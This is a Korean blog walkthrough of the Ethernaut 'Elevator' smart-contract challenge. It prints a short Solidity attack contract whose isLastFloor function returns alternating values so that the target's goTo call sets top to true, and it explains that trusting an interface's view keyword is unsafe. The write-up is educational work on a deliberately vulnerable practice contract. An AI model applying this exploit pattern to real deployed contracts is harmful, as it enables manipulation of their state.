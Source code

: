 문제 해설에 들어가기 전,  이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.



## Elevator Problem

이번 문제의 힌트를 보아도 잘 감이 오지 않는다.

 - 때때로 솔리디티는 약속을 잘 지키지 않는다.
 - 이 엘리베이터가 빌딩에서 사용되길 기대한다.



나는 이 elevator 문제를 한참동안 들여다 봐도 무엇이 잘못 되었는지, 찾지 못햇다. 우선 문제 주소를 remix에 넣고 컨트랙트 주소를 불러오자! 이때, 인터페이스는 배포가 불가능하니 꼭 **셀렉트를 Elevator**로 바꾸고 At Address를 진행하자. 처음에 문제로 출제된 Elevator 주소를 불러와 top함수를 호출하면 불값이 false로 되어 있다. 

![](C:\Users\hwave\Documents\GitHub\TIL-about-Blockchain\img\elevator01.png)

문제에서, 이 엘리베이터는 *"너의 빌딩에 꼭대기에 도달할수 없는게 맞지?"* 라고 하는 것을 보아 top을 true 값으로 바꾸면 문제를 통과 할 수 있다.



### ElevatorAttack.sol 

```javascript
pragma solidity ^0.4.18;

contract ElevatorAttack {
  bool public isLast = true;
  
  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _victim) public {
    Elevator elevator = Elevator(_victim);
    elevator.goTo(10);
  }
}
```

view 키워드가 있는 인터페이스와 비슷하게 isLastFloor 함수를 구현했지만, view 키워드를 적지 않았다. 원래 view는 아래와 같은 성격을 가지고 있다.

> 상태지정자 view : Data접근에 관하여 오로지 읽을 수 만 있고 상태 변경이 불가하다.

분명 처음 Elevator 컨트랙트를 설계한 배포자는 isLastFloor의 불린값이 바뀌지 않는 것으로 예상 했을 것이다.

그러나, 악의적인 공격자가 정작 함수를 구현할때 view키워드를 제외하고 Elevator 컨트랙트의 `goTo`함수에 10을 넣어 로직을 통과하게 되면 결과적으로 top 의 상태가 바뀌게 된다.



이후 이더넛의 콘솔창에서 await contract.top()를 치면 true 값으로 바뀐 것을 확인 할 수 있고, 다음 문제로 넘어갈 수 있다. 사실 이번 문제는 나도 몇일을 고민해도 풀지 못해 구글링을 하여 도움을 받았다.

문제 출제자는 view에 의존하지 말고 **modifier**를 활용하여 더 안전한 코드를 작성하라는 메시지를 주고 있다. 또한 인터페이스를 상속 받을때는 항상 조심해야한다.



그럼, 다음번에는 12단계 Privacy에서 만나요!